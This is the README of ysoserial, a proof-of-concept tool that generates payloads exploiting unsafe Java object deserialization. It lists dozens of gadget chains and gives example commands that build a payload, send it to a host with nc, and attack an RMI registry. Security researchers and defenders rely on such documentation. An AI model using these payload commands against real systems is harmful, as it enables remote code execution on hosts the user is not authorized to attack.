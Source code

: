 
# ysoserial

[![Join the chat at https://gitter.im/frohoff/ysoserial](
    https://badges.gitter.im/frohoff/ysoserial.svg)](
    https://gitter.im/frohoff/ysoserial?utm_source=badge&utm_medium=badge&utm_campaign=pr-badge&utm_content=badge)
[![Download Latest Snapshot](https://img.shields.io/badge/download-master-green.svg)](
    https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)
[![Travis Build Status](https://api.travis-ci.com/frohoff/ysoserial.svg?branch=master)](https://travis-ci.com/frohoff/ysoserial)
[![Appveyor Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

![logo](ysoserial.png)

## Description

Originally released as part of AppSecCali 2015 Talk
["Marshalling Pickles: how deserializing objects will ruin your day"](
        https://frohoff.github.io/appseccali-marshalling-pickles/)
with gadget chains for Apache Commons Collections (3.x and 4.x), Spring Beans/Core (4.x), and Groovy (2.3.x).
Later updated to include additional gadget chains for
[JRE <= 1.7u21](https://gist.github.com/frohoff/24af7913611f8406eaf3) and several other libraries.

__ysoserial__ is a collection of utilities and property-oriented programming "gadget chains" discovered in common java
libraries that can, under the right conditions, exploit Java applications performing __unsafe deserialization__ of
objects. The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then
serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes
this data, the chain will automatically be invoked and cause the command to be executed on the application host.

It should be noted that the vulnerability lies in the application performing unsafe deserialization and NOT in having
gadgets on the classpath.

## Disclaimer

This software has been created purely for the purposes of academic research and
for the development of effective defensive techniques, and is not intended to be
used to attack systems except where explicitly authorized. Project maintainers
are not responsible or liable for misuse of the software. Use responsibly.

## Usage

```shell
$  java -jar ysoserial.jar
Y SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload] '[command]'
  Available payload types:
     Payload              Authors                                Dependencies                                                                                                                                                                                        
     -------              -------                                ------------                                                                                                                                                                                        
     Atomikos             @pwntester, @sciccone                  transactions-osgi:4.0.6, jta:1.1                                                                                                                                                                    
     BeanShell1           @pwntester, @cschneider4711            bsh:2.0b5                                                                                                                                                                                           
     C3P0                 @mbechler                              c3p0:0.9.5.2, mchange-commons-java:0.2.11                                                                                                                                                           
     Clojure              @JackOfMostTrades                      clojure:1.8.0                                                                                                                                                                                       
     CommonsBeanutils1    @frohoff                               commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2                                                                                                                               
     CommonsCollections1  @frohoff                               commons-collections:3.1                                                                                                                                                                             
     CommonsCollections2  @frohoff                               commons-collections4:4.0                                                                                                                                                                            
     CommonsCollections3  @frohoff                               commons-collections:3.1                                                                                                                                                                             
     CommonsCollections4  @frohoff                               commons-collections4:4.0                                                                                                                                                                            
     CommonsCollections5  @matthias_kaiser, @jasinner            commons-collections:3.1                                                                                                                                                                             
     CommonsCollections6  @matthias_kaiser                       commons-collections:3.1                                                                                                                                                                             
     CommonsCollections7  @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1                                                                                                                                                                             
     FileUpload1          @mbechler                              commons-fileupload:1.3.1, commons-io:2.4                                                                                                                                                            
     Groovy1              @frohoff                               groovy:2.3.9                                                                                                                                                                                        
     Hibernate1           @mbechler                                                                                                                                                                                                                                  
     Hibernate2           @mbechler                                                                                                                                                                                                                                  
     JBossInterceptors1   @matthias_kaiser                       javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21                                            
     JRMPClient           @mbechler                                                                                                                                                                                                                                  
     JRMPListener         @mbechler                                                                                                                                                                                                                                  
     JSON1                @mbechler                              json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
     JavassistWeld1       @matthias_kaiser                       javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21                                                        
     Jdk7u21              @frohoff                                                                                                                                                                                                                                   
     Jython1              @pwntester, @cschneider4711            jython-standalone:2.5.2                                                                                                                                                                             
     MozillaRhino1        @matthias_kaiser                       js:1.7R2                                                                                                                                                                                            
     MozillaRhino2        @_tint0                                js:1.7R2                                                                                                                                                                                            
     Myfaces1             @mbechler                                                                                                                                                                                                                                  
     Myfaces2             @mbechler                                                                                                                                                                                                                                  
     ROME                 @mbechler                              rome:1.0                                                                                                                                                                                            
     Spring1              @frohoff                               spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE                                                                                                                                               
     Spring2              @mbechler                              spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2                                                                                                           
     SpringJta            @zerothoughts, @sciccone               spring-tx:5.1.7.RELEASE, spring-context:5.1.7.RELEASE, jta:1.1                                                                                                                                      
     Struts2JasperReports @sciccone                              struts2-core:2.5.20, struts2-jasperreports-plugin:2.5.20                                                                                                                                            
     URLDNS               @gebl                                                                                                                                                                                                                                      
     Vaadin1              @kai_ullrich                           vaadin-server:7.7.14, vaadin-shared:7.7.14                                                                                                                                                          
     Wicket1              @jacob-baines                          wicket-util:6.23.0, slf4j-api:1.6.4                                                                                                                                                                

```

## Examples

```shell
$ java -jar ysoserial.jar CommonsCollections1 calc.exe | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
...
0000550: 7672 0012 6a61 7661 2e6c 616e 672e 4f76  vr..java.lang.Ov
0000560: 6572 7269 6465 0000 0000 0000 0000 0000  erride..........
0000570: 0078 7071 007e 003a                      .xpq.~.:

$ java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 1099 < groovypayload.bin

$ java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```

## Installation

1. Download the latest jar from
[JitPack](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)
[![Download Latest Snapshot](https://img.shields.io/badge/download-master-green.svg)](
    https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)

Note that GitHub-hosted releases were removed in compliance with the
[GitHub Community Guidelines](
    https://help.github.com/articles/github-community-guidelines/#what-is-not-allowed)

## Building

Requires Java 1.7+ and Maven 3.x+

```mvn clean package -DskipTests```

## Code Status

[![Build Status](https://travis-ci.org/frohoff/ysoserial.svg?branch=master)](https://travis-ci.org/frohoff/ysoserial)
[![Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

## Contributing

1. Fork it
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create new Pull Request

## See Also
* [Java-Deserialization-Cheat-Sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet): info on vulnerabilities, tools, blogs/write-ups, etc.
* [marshalsec](https://github.com/frohoff/marshalsec): similar project for various Java deserialization formats/libraries
* [ysoserial.net](https://github.com/pwntester/ysoserial.net): similar project for .NET deserialization

